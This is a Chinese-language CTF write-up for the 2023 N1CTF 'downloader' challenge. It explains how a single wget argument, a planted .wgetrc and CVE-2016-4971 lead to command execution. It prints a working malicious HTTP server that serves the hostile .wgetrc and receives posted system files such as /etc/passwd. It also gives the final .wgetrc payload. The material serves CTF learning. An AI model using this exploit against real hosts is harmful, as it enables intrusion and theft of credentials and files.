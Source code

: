 ```yaml
---
layout: post
title: "wget只能有一个参数? 给你rce了"
category: [ctf]
---
```


*题目源自于2023年的n1ctf, 名为downloader*

~~老鱼我没爆零~~

## 步骤
从题目可以看出, 程序使用了wget下载文件, 但是并不会给予任何回显
```c
          iVar2 = open("/dev/null",0x41,0x1b6);
          dup2(iVar2,1);
          dup2(iVar2,2);
          execlp("wget","wget",auStack_128,0);
```

初步计划写入`/etc/cron.d`以达到rce目的, 但是execlp仅接收1个参数作为函数参数, 其man内容如下

>    l - execl(), execlp(), execle()
>       The const char *arg and subsequent ellipses can be thought of as arg0, arg1, ..., argn.  Together they describe a list of  one  or  more  pointers  to  null-terminated
>       strings  that  represent the argument list available to the executed program.  The first argument, by convention, should point to the filename associated with the file
>       being executed.  The list of arguments must be terminated by a null pointer, and, since these are variadic functions, this pointer must be cast (char *) NULL.
>       By contrast with the 'l' functions, the 'v' functions (below) specify the command-line arguments of the executed program as a vector.

但参数于第四个直接被截断, 于是理解为只能给wget传入一个参数, 可构成ssrf (但事后证明好像没啥用233)

在搜寻过程中, 发现了个古代漏洞: [CVE-2016-4971](https://nvd.nist.gov/vuln/detail/CVE-2016-4971), 以此获得灵感, 可通过控制`.wgetrc`以达成rce的目的

不幸的是, 靶机的有问题的程序的权限很低, 无法写入cron表达成rce目的, 同时也无人登录靶机, 故搜寻到`--use-askpass`参数 ([文档](https://github.com/mirror/wget/blob/9a35fe609c87c558153cff80fef7dea809b3cf63/doc/wget.texi#L1197-L1204))

在wget用到`--use-askpass`参数之前, wget需要遇到一次401错误以迫使其登录, 否则其头部不存在`Authorization`参数, 无法通过其进行命令执行

同时`--use-askpass`会直接使用其`stdout`的输出作为用户名和参数, 配合自定义的恶意服务端可直接泄漏出需要的东西, 而这里是flag

遂决定利用`.wgetrc`中`input = baka.txt`来省去url, 但很不幸, wget在有input的情况下完全绕过了`--use-askpass`的参数

苦苦在官方手册搜寻无果, 但最终还是从源码内的文档中注意到有如下几行:
```
You can set the default command for use-askpass in the @file{.wgetrc}.  That
setting may be overridden from the command line.
```

于是决定盲写一个
```
use_askpass=/readflag
```

  亡

  口

月贝凡

## 利用代码

其自建的恶意服务端如下
```python
#!/usr/bin/env python

#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971
#
HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 23360

import http.server
import socketserver
import socket;

class wgetExploit(http.server.SimpleHTTPRequestHandler):
   def do_AUTHHEAD(self):
       self.send_response(401)
       self.send_header("WWW-Authenticate", 'Basic realm="Test"')
       self.end_headers()
   def do_GET(self):
       # This takes care of sending .wgetrc
       print(("We have a volunteer requesting " + self.path + " by GET :)\n"))

       print("Uploading .wgetrc via ftp redirect vuln. It should land in /root \n")
       self.send_response(200)
       self.end_headers()
       with open(".wgetrc", "r") as f:
           self.wfile.write(bytes(f.read(), 'utf8'))
           self.__staged = True

   def do_POST(self):
       if self.headers.get("Authorization") is None:
           self.do_AUTHHEAD()
           self.wfile.write(b"qwq")
           return
       print(self.headers.get("Authorization"))
       # In here we will receive extracted file and install a PoC cronjob
       print(("We have a volunteer requesting " + self.path + " by POST :)\n"))

       content_len = int(self.headers.get('content-length', 0))
       post_body = self.rfile.read(content_len)
       print(("Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)))

       print("Sending back a cronjob script as a thank-you for the file...")
       print("It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)")
       self.send_response(200)
       self.end_headers()
       with open("a.out", "rb") as f:
           self.wfile.write(f.read())

       print("\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n")

       return


handler = socketserver.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print("Ready? Is your FTP server running?")

print(("Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT))

handler.serve_forever()
```

最终的wgetrc为下
```
post_file = /etc/passwd
use_askpass=/readflag
```

